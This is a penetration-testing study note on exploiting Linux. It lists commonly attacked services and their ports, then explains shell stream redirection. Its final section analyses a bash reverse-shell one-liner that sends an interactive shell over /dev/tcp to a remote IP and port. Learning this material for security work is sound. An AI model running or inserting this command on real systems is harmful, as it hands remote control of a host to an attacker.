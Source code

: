 # Exploiting Linux

## Contents
- [Overview](#overview)
- [Frequently Exploited Services](#frequently-exploited-services)
- [Notes](#notes)
  - [Linux Standard Streams](#linux-standard-streams)

## Overview 

- Linux is a free and open-source operating system that is comprised of the Linux kernel, which was developed by Linus Torvalds, and the GNU toolkit, which is a collection of software and utilities that was started and developed by Richard Stallman.
- This combination of open-source software is what makes up the Linux O/S as a whole, and it is commonly referred to as GNU/Linux.
- Linux has various use cases. However, it is typically deployed as a server operating system. For this reason, there are specific services and protocols that will typically be found running on a Linux server.
- These services provide an attacker with an access vector that he can utilize to gain access to a target host.
- Having a good understanding of what these services are, how they work, and their potential vulnerabilities is a vitally important skill to have a penetration tester.

## Frequently Exploited Services 

|  Protocol/Service  |  Ports  |  Purpose  |
| :---------------:  |  :---:  |  -------  |
| Apache Web Server | TCP Ports 80 & 443 | Free and open-source cross-platform web server released under the Apache License 2.0. Apache accounts for over 80% of web servers globablly |
| SSH | TCP Port 22 | SSH (Secure Shell) is a cryptographic remote access protocol that is used to remotely access and control systems over an unsecured network. SSH was developed as a secure successor to telnet |
| FTP | TCP Port 21 | FTP (File Transfer Protocol) is a protocol that facilitates file sharing between a server and a client, and vice versa | 
| Samba | TCP Port 445 | Samba is the Linxu implementation of the SMB protocol, and it allows Windows systems to access Linux shares and devices |

## Notes

### Linux Standard Streams

#### Linux Streams
- There are three standard "streams" of data in Linux and they are referred to with the following values:
  - `0: stdin`&nbsp;&nbsp;&nbsp;(from keyboard)
  - `1: stdout`&nbsp;&nbsp;(default: to display)
  - `2: stderr`&nbsp;&nbsp;(default: to display)

#### Exxplicitly Redirect stdout
- To explicitly redirect `stdout`, use this redirection instruction: `1>`
  -  `>` is shorthand for `1>`
-  Example: This redirects stdout into a text file instead of to the default (display)
```
 echo "This is content." > text_file.txt
```

#### Explicity Redirect stderr
- To explicitly redirect `stderr`, use this redirection instruction: `2>`

#### Example #1: Redirect stderr to a file called capture.txt.
```
./error.sh 2> capture.txt
```

#### Example #2: Redirect stdout to capture.txt and stderr to error.txt
```
./error.sh 1> capture.txt 2> error.txt
```

### Example 3: Redirect to the same file
```
./error.sh > capture.txt 2>&1
```
- `./error.sh` : Launches the error.sh script file.
- `> capture.txt` : Redirects the stdout (1) stream to the capture.txt file. REMEMBER: > is shorthand for 1>.
- `2>&1` : This uses the >& redirect instruction.
  - This instruction allows you to tell the shell to make one stream go to the same destination as another stream.
  - In this case, we're saying "redirect stream 2, stderr, to the same destination that stream 1, stdout, is being redirected to" (i.e., into the capture.txt file)
   
#### Analysis of Syntax
```
bash -i &> /dev/tcp/10.3.0.13/222 0>&1
```
  - `bash -i` : opens an interactive shell (a session that begins with your login and ends when you type 'exit' to logout).
  - `&>` : redirects the standard output and error to the socket opened to the IP 10.3.0.13 which would be listening on port 222
  - `0>&1` : stdin is attached to stdout (and from &> we know that the stdin for this bash process is from 10.3.0.13:222.
